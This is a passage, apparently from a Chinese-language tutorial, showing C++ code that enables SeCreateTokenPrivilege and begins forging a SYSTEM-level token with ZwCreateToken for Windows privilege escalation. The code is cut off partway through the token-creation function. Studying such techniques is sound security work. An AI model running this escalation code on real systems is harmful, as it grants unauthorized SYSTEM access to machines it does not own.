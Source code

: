 然后调用 `EnableTokenPrivilege()` 函数，该函数通过 `AdjustTokenPrivileges()` 函数为当前进程开启 SeCreateTokenPrivilege 特权，如下所示。

```c++
BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
	BOOL status = FALSE;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges;

	// Get the LUID value of the privilege for the local system
	if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
	{
		wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
		return status;
	}

	// Set escalation information
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	// Elevate Process Token Access
	if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
	{
		wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
		return status;
	}
	else
	{
		status = TRUE;
	}
	return status;
}
```

接着，凭借已开启的 SeCreateTokenPrivilege 特权，调用 `CreateUserToken()` 函数创建新令牌。

## Create User Token

`CreateUserToken()` 函数的定义如下。

```c++
HANDLE CreateUserToken(HANDLE hToken)
{
	NTSTATUS Status;
	HANDLE pElevatedToken = NULL;
	PTOKEN_USER pTokenUser = NULL;
	PTOKEN_PRIVILEGES pTokenPrivileges = NULL;
	PTOKEN_GROUPS pTokenGroups = NULL;
	PTOKEN_PRIMARY_GROUP pTokenPrimaryGroup = NULL;
	PTOKEN_DEFAULT_DACL pTokenDefaultDacl = NULL;
	TOKEN_SOURCE tokenSource;
	PTOKEN_OWNER pTokenOwner = NULL;
	SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService), SecurityImpersonation, SECURITY_STATIC_TRACKING, FALSE };
	OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
	LUID AuthenticationId = SYSTEM_LUID;
	LARGE_INTEGER ExpirationTime;

	_ZwCreateToken ZwCreateToken;

	PISID pSid = NULL;
```